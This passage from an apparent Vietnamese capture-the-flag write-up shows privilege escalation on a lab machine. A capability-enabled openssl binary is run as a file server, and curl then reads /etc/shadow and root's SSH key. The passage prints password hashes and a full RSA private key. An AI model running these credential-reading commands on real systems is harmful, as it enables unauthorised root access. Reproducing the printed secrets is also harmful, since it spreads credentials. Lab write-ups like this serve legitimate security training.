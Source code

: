 ```shell 
-rw-r--r-- 1 tom  tom          807 Apr  4  2018 .profile
drwxr-xr-x 2 tom  Debian-snmp 4096 Oct  5 05:42 .ssh
```

Khởi tạo server từ thư mục `/`:

```shell 
tom@escape:/$ cd /
tom@escape:/$ /opt/cert/openssl s_server -HTTP -cert /home/tom/cert.pem -key /home/tom/key.pem -port 8888
Enter pass phrase for /home/tom/key.pem:
Using default temp DH parameters
ACCEPT
```

Vì `/opt/cert/openssl` có full `capability`, nên ta có thể lấy `/etc/shadow` (sử dụng option `-k` của `curl` vì ta đang dùng custom cert):

```shell 
tom@escape:~$ curl -k https://localhost:8888/etc/shadow
root:$6$2dR6T6Tj$0wSNFsX6592.xq742oq1SxqjowweDrDgg5OexLM6vgkguLc.TnrH7QKeTA9LlckzcahNRiui0aSHcvSMkKcbh/:18617:0:99999:7:::
...
tom:$6$NQe6eQjI$yDV7Ae5fiktJIBu.lIrZZluL.L5NKHR10nfDD79VEhXj75jGtQ7YHissLLkKwW9UEcbqL9SAEOfuYco2dF9ih/:18617:0:99999:7:::
```

Tại đây, ta có thể lấy file `/root/proof.txt` bằng `curl -k` như trên. Nhưng tôi vẫn muốn vào `root` một cách hoàn chỉnh.

Thử xem có file `/root/.ssh/id_rsa` không?

```shell 
tom@escape:~$ curl -k https://localhost:8888/root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
V+IE0rS8N2pIymRF3u8U/9YMX/Ps2EPvNQFkTQIDAQABAoIBAQCXXa/Ce6z/76pf
rU81kJ8JO4vPQkm6CIozvroWBWcumzaj5Kn38SFDXh5kQF0bR1e2XEVRe6bnG4GW
s2WQZsbVQRZxzhCGiju6jS7wfoNtDhHdxjw3gGI3sAb8j5jTmmOZgCqdihnUsPtm
wm+2ykivQAi0jO3gfYuPApqHs+ppngt2KeMUZesIz4BWuFAnS0ePK/tpTHpZ4KRj
D/sb1kdseaCmPfOD6oTMGNtTiakkDUzObN3Pw19v5wkHfawTbmsSeiPmW1nC5xh/
OI7K+wbVUCj3Dys3xqKoCMK27y+pYHzzoiz7ol+OitIth6ucDe6NC6cFbVPmW2o0
fk+U8VbRAoGBAOcfAlARjYV6qc2ukF9NYlVy/WYoP3zFzfb7uYu9I1OpLID+PYeN
ixpqKKgRoxM+ndsWWnyHjw5Kyq2+DHBE67OOpbd69y+fUYOhFiSH2TnQsB1LPtkH
ZT0pZyaBavQLZFZChpOeQ96qfEw5xwA65zENCSFoGoILHS92akVmWQnTAoGBANgK
0qNNsJYETJSob/KdnMYXbE3tPjNkdCzKXXklgZXeUKn6U//0vRhJWZGHv8RDWrlh
1wc9Op88Dx003Ay+3vVqjOs7ur46KankMTj+PN5B5CX1CioXtJ9T6qRF+8+46oq7
pXBTqfi7Gp2m+RuQJS9Ct2bu6OUYgGdUzQ8p/+VfAoGAOhCnUxhl1sAPgxY1PUxC
xTcDhLPd52oGqeNqJTpacr1Q6gN1z+V2qic7maX8s2wK2q0OBLVF8pBFxUq280nN
caoH5kXlbjh3kTtaRck/gO/2HxX1by8Vdz08pgbjqPZnuegyyUl8wadRXREy9tLV
nJQq1BLEfiFurqrwXgktm3MCgYEAroDPcyilogcG9Gy5P/cfUsJIsQkYXNqfHC65
IcmxyiQwc5vHjc9ZjexxdKN5ukXNWkA1N5u1ZjlU2/p+Y60o2oKeIMO2K0E/tgKj
36077Sq75gzvkOBk/O0Dcn000KxEhprbHsf1WvuGnCDqxeDAqFPzYClJ5QLNdKmC
mOUL1XECgYB1wX6H2xWJ+GvC1qKVs4WOYjfCvVZTh+9i8CpA1i4xmmmXXnc+jy/O
Bl7VLsdfeQ3L/NOBTng09PO2lwSWdghCMeS25rMm6/xZTOduauGVTMKx4DT7FvX6
NLU86rcVJCcqL0LdcJ7/2tmwsyuqhCLQ0fl37ZCS93LTXqGUzXfViw==
-----END RSA PRIVATE KEY-----

```
